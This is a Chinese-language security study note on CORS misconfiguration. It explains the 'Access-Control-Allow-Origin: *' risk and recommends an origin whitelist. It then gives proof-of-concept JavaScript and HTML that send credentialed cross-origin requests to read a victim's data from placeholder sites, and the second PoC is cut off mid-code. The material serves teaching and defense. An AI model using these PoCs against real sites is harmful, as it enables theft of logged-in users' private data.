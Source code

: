 ```
HTTP/1.1 200 OK
Date: Mon, 01 Dec 2008 00:23:53 GMT
Server: Apache/2.0.61 
Access-Control-Allow-Origin: *
Keep-Alive: timeout=2, max=100
Connection: Keep-Alive
Transfer-Encoding: chunked
Content-Type: application/xml

[XML Data]
```

----

* 使用CORS实现跨域 常见的**安全风险**
  * "CORS错误配置漏洞"(CORS misconfiguration)
    * `B.com`的Response Header有`Access-Control-Allow-Origin: *`则存在漏洞, 即`B.com`可以接收并响应来自任何域的request, 存在"跨站信息泄露"(cross-site leak)等**风险**. 应该设置"源域名白名单".
* attack
  * 步骤(1) 攻击者在`evil.com`(被目标站CORS信任的域都行) 用脚本(JavaScript)实现 "发起跨域request的代码" 参考PoC1 PoC2 PoC3
  * 步骤(2) 正常用户 登录过`B.com` 并访问`evil.com` (因为B.com后端的CORS未正确配置) 所以从`evil.com`向`B.com`发出一个跨域请求, 得到了`B.com`的Response, `evil.com`获取到了`B.com`的数据.
* 用脚本(JavaScript)发送request的方法: 它们遵循SOP CORS 即符合CORS策略时能够发送跨域request
  * [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest)
  * [Fetch API](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API) more powerful!

PoC1: poc1_cors_XMLHttpRequest.js
```javascript
var invocation = new XMLHttpRequest();

  invocation.onreadystatechange = function() {
    if (invocation.readyState == XMLHttpRequest.DONE) {
      alert(invocation.response);
    }
  }

function cors(){
  if(invocation) {
    invocation.open('GET', "https://www.B.com/content-paywall/api/accesslevel", true);
    invocation.withCredentials = true;
    invocation.send(); 
  }
}

cors();
```

PoC2: poc2_cors_XMLHttpRequest.html
```html
<h2>CORS To Read the response body of a vulnerable site</h2>
<div id="demo">
<button type="button" onclick="cors()">XHR</button>
</div>

<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("demo").innerHTML = document.write(this.responseText);
    }
  };
  xhttp.open("GET", "https://chat.vulnerable.com/v2/get-messages?conversationId=469104576&pageSize=3", true);
  xhttp.withCredentials = true;
```
